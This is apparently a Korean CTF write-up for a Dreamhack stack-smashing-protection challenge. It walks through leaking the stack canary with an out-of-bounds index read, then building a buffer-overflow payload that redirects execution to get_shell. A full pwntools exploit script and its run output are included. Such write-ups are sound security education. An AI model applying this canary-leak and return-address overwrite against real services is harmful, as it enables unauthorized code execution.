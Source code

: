 ![스택구조.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7512bc1c-82ba-499a-99e9-01f045d346f2/%EC%8A%A4%ED%83%9D%EA%B5%AC%EC%A1%B0.png)

그러면 이제 case ‘P’를 이용하여 카나리 값을 추출해보자. idx에 입력되는 값은 box의 크기를 넘을 수 있고 box의 인덱스 하나당 1바이트씩 출력이 될것이므로 0x80,0x81,0x82,0x83만큼의 위치가 카나리 값이다. 이를 통해서 카나리 값을 알아내면된다. (0x81이 아니라 0x80부터인 이유는 index가 0부터 시작하는 것과 이유가 똑같다. box의 index가 0~0x3f까지이므로 0x40부터 box의 index를 넘어선것 거기에 name의 크기인 0x40을 더해주면 카나리의 인덱스임)

case’E’에서 name~EBP+0x4까지의 크기인 0x4B만큼의 크기를 입력하기로하고 0x40만큼 b’A’ 넣어주고 + case’P’ 에서 알게된 카나리 값+ 4바이트 b’A’ + get_shell함수 주소 로 페이로드를 작성해주면 된다. 

```c
gdb-peda$ print get_shell
$1 = {<text variable, no debug info>} 0x80486b9 <get_shell>
```

get_shell의 주소는 위와같다.

이제 페이로드만 작성하면 된다.

```c
from pwn import *

p= remote("host3.dreamhack.games",18090)
canary=b''
for i in range(131,127,-1):
	p.sendlineafter('> ','P')
	p.sendlineafter(": ",str(i))
	data=p.recvline()
	canary+=data[-3:-1]

p.sendlineafter('> ','E')
print(canary)
print(p32(int(canary,16)))
payload=b'A'*0x40
payload+=p32(int(canary,16))
payload+=b'A'*8
payload+=p32(0x80486b9)
print(payload)
p.sendlineafter(": ",'80')

p.sendlineafter(": ",payload)

p.interactive()
```

이 문제를 풀면서 내가 카나리에 대해 완벽하게 이해한 것이 아닌 카나리가 스택에 저장되어있을 때 첫 값이 \x00이라는 것만 기억하고 있었다. 그래서 128~131바이트 값을 읽어서 그대로 넣어주려고 했는데 b’\x00’이 아닌 b’00’형태로 되어있어서 오또카지 오또카지 하다가.. 한참 헤맸다.

암튼 역순으로 카나리 값을 얻어낸후 (그러면 b’12345600’ 이런식일 것임) p32를 이용해 다시 패킹해주면 알아서(b’\x00\x56\x34\x12’)로 된다.

```c
└─# python3 ./answer.py                                                                    1 ⚙
[+] Opening connection to host3.dreamhack.games on port 18090: Done
/root/바탕화면/ssp_1/./answer.py:6: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter('> ','P')
/usr/local/lib/python3.10/dist-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
/root/바탕화면/ssp_1/./answer.py:7: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter(": ",str(i))
/root/바탕화면/ssp_1/./answer.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter('> ','E')
b'250f4200'
b'\x00B\x0f%'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00B\x0f%AAAAAAAA\xb9\x86\x04\x08'
```